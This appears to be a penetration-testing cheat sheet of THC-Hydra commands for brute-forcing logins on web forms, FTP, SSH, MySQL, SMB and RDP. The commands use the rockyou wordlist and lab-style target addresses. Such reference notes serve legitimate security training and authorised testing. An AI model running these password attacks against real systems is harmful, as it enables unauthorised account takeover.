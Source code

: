 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt [IP Address] ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://[IP_Address]

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/usernamelist.txt -P /full/path_to/passlist.txt ssh://IP_Address:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt IP Address Target -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt IP Address Target -t 4 smb

## RDP

$ hydra -l username -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L full/path_to_usernamelist.txt -P full/path_to_passlist.txt -t 4 -W 3 rdp://IP_Address:3389/

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra

